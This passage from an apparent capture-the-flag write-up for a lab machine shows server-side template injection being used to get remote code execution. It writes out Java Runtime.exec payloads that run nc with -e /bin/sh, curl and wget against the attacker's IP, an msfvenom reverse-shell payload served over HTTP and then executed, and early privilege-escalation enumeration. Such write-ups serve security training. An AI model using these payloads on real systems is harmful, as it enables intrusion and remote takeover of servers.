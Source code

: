 Well, it didn't return the resutlts I was expecting. It just returned the results of that the command input was valid. That's also fine. This means that we can hopefully setup a `netcat` listener and catch and incoming call from the server. This is very much like the RCE listed in the above repo.

Command:
`*{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("nc 10.10.16.32 9999 -e /bin/sh")}`

Still nothing. So now as we look back through the repo with exploits, we see an instance of the `curl` command being used. So we try that.

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.32:9999")}`

![](/images/redpanda/panda5.png)

That does indeed work. So if we can get the server to `wget` a file from us and then launch it, we can probably catch a shell from that file. First we can generate a payload with `msfvenom`.

Command:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.32 LPORT=9999 -f elf > pwn.elf`

Now with our payload created, we will host it:

Command:
`python3 -m http.server 80`

Now we will craft the query payload:

Command:
`*{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("wget http://10.10.16.32/pwn.elf")}`

That didn't work due to the `http://` and after some tinkering with the query the `.getMethod().invoke()` need to be removed leaving us with:

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.16.32/pwn.elf")}`

We see it get the file!

![](/images/redpanda/panda6.png)

Now we need to execute it on the server. First we change the file permissions.

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./pwn.elf")}`

Now we execute it:

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./pwn.elf")}`

We catch the incomming connection!

![](/images/redpanda/panda7.png)

We can stabalize the shell and get our `user.txt` flag! Now we can start enumerating. We do a quick `sudo -l` then we download a copy of `linpeas` to the system and let it go. As we sift through the results we see an interesting cron job:

